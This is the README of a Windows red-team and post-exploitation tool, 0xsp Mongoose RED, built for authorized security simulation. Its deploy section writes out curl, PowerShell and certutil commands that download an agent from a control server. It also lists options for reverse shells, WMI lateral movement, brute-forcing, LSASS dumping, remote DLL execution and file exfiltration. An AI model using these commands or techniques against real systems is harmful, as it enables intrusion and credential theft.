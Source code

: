 [![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[<img src="https://img.shields.io/badge/join-telegram-blue">](https://t.me/join0xsp)
[<img src="https://img.shields.io/badge/build%20with-Lazarus-red.svg">](https://www.lazarus-ide.org/)
[<img align="right" src="https://github.com/lawrenceamer/0xsp-Mongoose/blob/0xsp-red/lg.png?raw=true" height="512" width="400">]()
[<img src="https://img.shields.io/badge/join-discord-orange">](https://discord.gg/Xsdxxkm)
[<img src="https://img.shields.io/twitter/follow/zux0x3a?label=follow&style=social">](https://twitter.com/zux0x3a)

# 0xsp Mongoose RED for Windows 
Current Release **2.2.0** 

0xsp mongoose red version is provided to assist your needs during cyber security simulation, by using this version you will be able to audit a targeted windows operation system 
for system vulnerabilities, misconfigurations and privilege escalation attacks and replicate the tactics and techniques of an advanced adversary in a network.

with node js support for web application API, it becomes much easier for installation and customization in timely manner, the windows sensor agent will communicate with application API to transfer results, and receive commands as bidirectional technique. 

the agent is able to identify and detect windows exploits by using `windows update api` and `exploit database definitions` modules, the new release will detect also the following 
vulnerabilities.
 
* CVE-2019-0836
* CVE-2019-0841
* CVE-2019-1064
* CVE-2019-1130
* CVE-2019-1253
* CVE-2019-1385
* CVE-2019-1388
* CVE-2019-1405
* CVE-2019-1315
* CVE-2020-0787
* CVE-2020-0796
* CVE-2020-0797 
* CVE-2020-1472

## Features 

* Windows Privilege escalation scanning techniques. 
* web application built with NodeJS 
* supports sqlite DB 
* Lateral movements techniques. [ video](https://www.youtube.com/watch?v=pEpiOrpyYs8)
* Bidirectional communication channel.[ video ](https://www.youtube.com/watch?v=tyhBuWCB_aY)
* Plugins online packaging.  
* Enhanced exploit detecter scripting engine. 
* Windows Account Bruteforce Module (Local / Domain)
* weaponization of run-as-user windows api function. [Video](https://youtu.be/oe-BFZpV8nw)
* local network scanning and shares enumeration.
* lsass memory dummping technique (plugin).

### installation 

```
git clone --single-branch --branch 0xsp-red https://github.com/lawrenceamer/0xsp-mongoose 
cd 0xsp-mongoose/ 
npm install 
node index.js
```
default access credentials :
* username : admin 
* password : 0xsp

[<img align="right" src="https://i.imgur.com/EQOsiv8.png">]()



### quick deploy of agent 

```
#example 1 
curl.exe -o agent.exe http://nodejsip:4000/release/x64.exe
#example 2 
powershell.exe -command (new-object net.webclient).downloadfile('http://nodejsip:4000/release/x64.exe','c:\tmp\agent.exe');
#example 3 
certutil.exe -urlcache -split -f "http://nodejsip:4000/release/x64.exe" agent.exe

```


### Usage 
```
-s --retrieve windows services and installed drivers.
-u --retrieve information about Users, groups, roles.
-c --search connected drivers for senstive config files by extension.
-n --retrieve network information,network interfaces, connection details.
-w --enumerate for writeable directories, access permission Check, modified permissions.
-i --enumerate windows system information, Sessions, Always elvated check.
-l --search in any file for specific string , ex : agent.exe -l c:\ password *.config.
-o --specify host address of nodejs application , you can use srvhost also
-p --enumerate installed Softwares, Running Processes, Tasks.
-e --kernel inspection Tool, it will help to search through tool databases for windows kernel vulnerabilities
-x --password to authorize your connection with node js application.
-d --download Files directly into target machine.
-t --upload Files From target machine into node js application.
-m --run all known scan Types together.

[!] RED TEAMING TACTICS SECTION

-r --spawn a reverse shell with specific account.
-lr --Lateral movement technique using WMI (e.g -lr -host 192.168.14.1 -username administrator -password blabla -srvhost nodejsip )
-nds --network discovery and share enumeration
-cmd --transfer commands via HTTP Shell
-interactive --starting interactive mode (eg : loading plugins ..etc)
-username --identity authentication for specific attack modules.
-password --identity authentication for specific attack modules.
-host --identify remote host to conduct an attack to.
-srvhost --set rhost of node js application.
-bf --local users / domain users bruteforce module
-import --import and execute dll file locally
-remote --import and execute dll file from remote host
```
### Documentations
https://0xsp.com/security%20dev/0xsp-mongoose-red

### detailed research site 
https://0xsp.com 

### Security Conferences 
* Standoff365 - Russia (https://standoff365.com/conferences/357)

### contribution 
0xsp community would like to send much thanks for the following people who have contributed to make this project awesome  

* Abboud Dokarli ( Web application API and interface ) @abbddkr

### tool tutorials 
make sure to subscribe into the following channel to be notified when new tutorial and tricks published for 0xsp 
https://www.youtube.com/channel/UCoEr6Qsyd6oMsPmaJPQ_FOg

